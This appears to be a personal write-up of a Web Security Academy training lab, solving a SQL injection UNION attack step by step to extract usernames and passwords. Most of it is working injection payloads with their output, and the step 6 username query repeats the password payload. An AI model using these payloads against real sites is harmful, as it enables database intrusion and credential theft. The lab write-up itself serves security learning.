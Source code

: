 # SQL injection UNION attack, retrieving multiple values in a single column

1. SQLi:
    - product category filter.
    - The database contains a different table called users.
    - columns called username and password.
2. Goal:
    - retrieves all usernames and passwords.
    - log in as the `administrator` user.

### Analysis
- Website target: `https://0a13001804cd39268031d00a00d7009a.web-security-academy.net/`
- Use Burp suite.
- `ctrl + u`: URL encode.

1. Find the number of columns.
```sql
' order by 2--
'-- I found 2 columns.
```

2. Find the data type of these columns.
```sql
' union select null, 'a'--
'-- I found 1 from 2 columns data type is text.
```

3. Find the version of database.
```sql
SELECT version() --PostgreSQL

' UNION SELECT NULL, version()--
'-- PostgreSQL 12.16
```

4. Output the list of table names from database.
```sql
SELECT * FROM information_schema.tables

' UNION SELECT NULL, TABLE_NAME FROM information_schema.tables--
'-- Table name: users.
```

5. Output the column names from the table.
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

' UNION SELECT NULL, COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users'--
'-- Column names: username and password.
```

6. Output usernames and passwords.
```sql
' union select null, password from users--
'-- Username: administrator

' union select null, password from users--
'-- Password: qkwf0l5a5727i9qrlsau
```